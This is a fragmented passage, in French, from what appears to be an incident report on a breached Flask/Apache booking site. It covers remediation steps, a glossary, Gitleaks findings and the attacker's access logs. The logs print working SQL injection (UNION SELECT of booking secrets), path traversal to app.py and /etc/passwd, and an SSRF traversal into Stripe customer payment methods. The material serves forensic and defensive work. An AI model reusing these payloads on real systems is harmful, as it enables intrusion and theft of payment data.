ServerTokens Prod # bannière Apache réduite à "Apache" ServerSignature Off # pas de version dans les pages d'erreur Header unset Server # retire l'en-tête Server transmis par le back via ProxyPass Header always unset X-Powered-By
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : curl -sI …/api/ ne doit plus afficher Werkzeug ni Python. GET /api/uploads/?name=test.jpg ne doit plus renvoyer de traceback.
Les correctifs propres à chaque faille sont détaillés en section 6. Cette section les ordonne et ajoute les mesures organisationnelles.
sk_test_… et rk_test_… (D6), puis contrôler dans le dashboard Stripe l'absence d'opération non légitime depuis le 7 novembre.
git filter-repo) et ajouter Gitleaks en hook pre-commit et en CI (D6).
users ayant pu être lue (D1).
checkout_confirmation_secret dans l'URL de retour Stripe (CWE-598). Purger les journaux qui le contiennent.
dirsearch, sqlmap, python-requests…) ;
/api/.
/.well-known/security.txt et une adresse security@ surveillée, hors filtre anti-spam. L'e-mail de l'attaquant est resté deux jours dans les spams.
| Terme | Définition |
|---|---|
| CSP (Content-Security-Policy) | En-tête HTTP qui indique au navigateur les sources de scripts autorisées. Il bloque l'exécution de scripts injectés. |
| CWE | Catalogue de référence des types de faiblesses logicielles (MITRE). |
| Exfiltration | Extraction non autorisée de données hors du système. |
| IoC (Indicator of Compromise) | Trace technique (ligne de journal, IP, fichier…) qui prouve une compromission. |
| Injection SQL (SQLi) | Insertion de code SQL dans un paramètre, qui modifie la requête exécutée par la base de données. |
UNION SELECT |
Technique d'injection SQL qui ajoute au résultat les lignes d'une autre table. |
| Path traversal | Utilisation de séquences ../ dans un chemin de fichier pour lire des fichiers en dehors du répertoire prévu. |
| SSRF (Server-Side Request Forgery) | Faille qui amène le serveur à envoyer une requête choisie par l'attaquant, ici vers l'API Stripe avec la clé du marchand. |
| XSS stocké | Script malveillant enregistré dans les données du site et exécuté dans le navigateur de chaque visiteur. |
| User-Agent | En-tête HTTP qui identifie le navigateur ou l'outil à l'origine d'une requête. |
| Werkzeug | Serveur de développement de Flask, non prévu pour la production. En mode debug, il affiche le détail des erreurs. |
| WAF | Pare-feu applicatif qui filtre les requêtes HTTP malveillantes. |
| Gitleaks | Outil de détection de secrets (clés, mots de passe) dans un dépôt Git et son historique. |
| Bug bounty | Programme de récompense pour les chercheurs qui signalent des vulnérabilités de manière responsable. |
Commande : gitleaks git . -f json -r gitleaks.json. Résultat : 31 commits scannés, 113 alertes.
| Règle | Fichier | Commit | Nb | Verdict |
|---|---|---|---|---|
stripe-access-token |
docker-compose.yml (l. 10) |
4aec6cd → HEAD |
1 | Vrai positif : clé secrète sk_test_51R… (D6) |
stripe-access-token |
back/services/stripe.py (l. 11 et 35) |
ef5503c |
2 | Vrai positif : clé restreinte rk_test_51R… (D6) |
generic-api-key |
apache.log |
03e4a50 |
110 | Vrai positif : checkout_confirmation_secret journalisés en clair dans les URL de retour Stripe (cf. D4, observation CWE-598) |
149.102.235.40)[07/Nov/2026:10:52:23 +0200] "GET / HTTP/1.1" 200 616 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:10:53:21 +0200] "GET /cgi-bin/status HTTP/1.1" 404 35 "-" "dirsearch/v0.4.2" [07/Nov/2026:11:11:37 +0200] "GET /api/rooms/?category=hut%27%20OR%201=1%20-- HTTP/1.1" 200 311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:16:44 +0200] "GET /api/rooms/?category=test%27%20UNION%20SELECT%20bookings.id,%20bookings.reference,%20bookings.checkout_confirmation_secret,%20bookings.stripe_checkout_session_id,%200,%200,%200,%200%20FROM%20bookings%20WHERE%20bookings.reference%20=%20%2785A1NBEJ%27%20-- HTTP/1.1" 200 200 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:16:54 +0200] "POST /api/bookings/85A1NBEJ/confirm-checkout HTTP/1.1" 200 22 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:18:49 +0200] "GET /api/uploads/?name=test.jpg HTTP/1.1" 500 23187 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:18:56 +0200] "GET /api/uploads/?name=../app.py HTTP/1.1" 200 1152 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:19:10 +0200] "GET /api/uploads/?name=../../etc/passwd HTTP/1.1" 200 1182 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:19:43 +0200] "GET /api/bookings/85A1NBEJ/checkout-lines?checkout_session_id=../../customers%23 HTTP/1.1" 200 19128640 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0" [07/Nov/2026:11:23:13 +0200] "GET /api/bookings/85A1NBEJ/checkout-lines?checkout_session_id=../../customers/cus_itZV9C9MEpGwsV/payment_methods%23 HTTP/1.1" 200 1961 "-" "python-requests/2.25.0" [07/Nov/2026:11:34:54 +0200] "GET / HTTP/1.1" 200 616 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) Gecko/20100101 Firefox/52.0"
| User-Agent | Requêtes | Usage |
|---|---|---|
dirsearch/v0.4.2 |
6 093 | Énumération de chemins (toutes en 404) |
python-requests/2.25.0 |
623 | Exfiltration des moyens de paiement |
Firefox/52.0 (macOS 10.12.5) |
67 | Navigation et exploitation manuelle |
| Total | 6 783 |